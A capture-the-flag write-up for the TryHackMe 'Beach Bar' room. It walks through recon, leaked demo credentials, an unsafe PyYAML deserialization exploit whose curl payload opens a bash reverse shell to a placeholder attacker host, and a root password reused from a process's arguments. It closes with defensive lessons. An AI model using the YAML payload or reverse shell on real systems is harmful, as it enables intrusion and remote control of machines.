


# 🏖️ TryHackMe — Beach Bar (Boot2Root Writeup)



| | |
|---|---|
| **Category** | Boot2Root |
| **Difficulty** | Easy |
| **Points** | 60 |
| **Tags** | Web, Boot2root |

---


---

## 📝 Room Briefing

> Welcome back to the Byte Lotus — this time the sand is warm, the deck lights are coming up, and the beach bar's jukebox takes requests from anyone with a phone. You spend the evening as a guest at the rail who simply notices things: a DJ who never logs out, a song queue that accepts a little more than song titles, a service down the boardwalk quietly announcing "something".
>
> The beachside guest-experience build shipped on a deadline, and the night-shift developer wired the jukebox straight into the floor with the trimmings still attached.

Every line in that briefing turned out to be a hint for the actual vulnerability chain.

---

## 🔍 Recon

Started with an Nmap scan against the target:

```bash
nmap -Pn -sC -sV -p- --min-rate 3000 <TARGET_IP>
```

**Results:**

| Port | Service | Details |
|------|---------|---------|
| 22   | SSH     | OpenSSH 9.6p1 (Ubuntu) |
| 80   | HTTP    | Gunicorn — "Beach Bar // Sign in" |

Only a Flask/Gunicorn web app and SSH were exposed.

---

## 🔑 Initial Access — Leaked Credentials

Viewing the `/login` page source revealed an HTML comment left in by a developer:

```html
<!--
  staff note: the demo DJ login is still enabled for the soft opening.
  dj / dj  -- swap this before the season starts (ticket BAR-7)
-->
```

Classic **hardcoded/demo credentials** left in production — this is the "DJ who never logs out" from the briefing.

```bash
curl -s -c cookies.txt http://<TARGET_IP>/login -o /dev/null
curl -s -b cookies.txt -c cookies.txt -X POST http://<TARGET_IP>/login -d "username=dj&password=dj"
```

This logged in successfully and dropped a session cookie, redirecting to `/dashboard`.

---

## 🎯 Foothold — Insecure YAML Deserialization (RCE)

The dashboard exposed a **playlist import/export** feature ("a song queue that accepts a little more than song titles"). Export showed a normal YAML structure:

```yaml
playlist:
  name: Sunset Session
  vibe: golden hour
  tracks:
    - artist: Khruangbin
      title: Maria Tambien
```

The import feature parsed uploaded YAML using PyYAML's **unsafe loader**:

```python
parsed = yaml.load(content, Loader=yaml.Loader)   # 🚩 should be yaml.safe_load()
```

This allows arbitrary Python object instantiation via YAML tags like `!!python/object/apply`, leading straight to **remote code execution**.

**Exploit — reverse shell via malicious YAML payload:**

```bash
# start a listener
nc -lvnp 4444

# trigger RCE through the import endpoint
curl -s -b cookies.txt -X POST http://<TARGET_IP>/import \
  -F 'playlist=playlist: !!python/object/apply:os.system ["bash -c \"bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1\""]'
```

Caught a shell as **`bartender`**:

```
bartender@tryhackme-2404:/opt/beach-bar/webapp$
```

Stabilized the TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z, then in attacker terminal:
stty raw -echo; fg
```

🏳️ **User flag:** `/home/bartender/user.txt`

---

## 🚀 Privilege Escalation — Credential Reuse in a Root Process

Enumerating running processes and services turned up something the briefing had hinted at all along — *"a service down the boardwalk quietly announcing something"*:

```bash
find / -name "*jukebox*" 2>/dev/null
systemctl status jukeboxd
ps aux | grep -i jukebox
```

This revealed a **root-owned systemd service**, `jukeboxd`, running with a plaintext password exposed right in the process arguments:

```
root  610  /opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py --stream-pass SunsetSpritz2024! --bitrate 320k
```

Classic **secrets-in-process-list** leak (visible to any local user via `ps aux`). Tried the leaked password for privilege escalation — it was reused as the **root password**:

```bash
su root
Password: SunsetSpritz2024!
```

```
root@tryhackme-2404:/opt/beach-bar/webapp#
```

🏳️ **Root flag:** `/root/root.txt`

---

## 🏁 Result



**Room completed** ✅ — 90 points, both flags captured.

---

## 🧠 Lessons / Takeaways

1. **Never leave debug/demo credentials in HTML comments or committed code** — even "temporary" soft-launch creds get found.
2. **Never use `yaml.load()` on untrusted input** — always use `yaml.safe_load()` to prevent arbitrary object deserialization and RCE.
3. **Never pass secrets as CLI arguments** — they're visible to any local user via `ps aux`, `/proc/<pid>/cmdline`, etc. Use environment variables, secret managers, or config files with restricted permissions instead.
4. **Password reuse across services (app-level secrets vs. root creds) is a critical risk** — a leaked stream password shouldn't ever double as a root password.

---

*Writeup for the TryHackMe room "Beach Bar" (Byte Lotus series). Flags redacted/replaced with placeholders per THM's writeup guidelines*
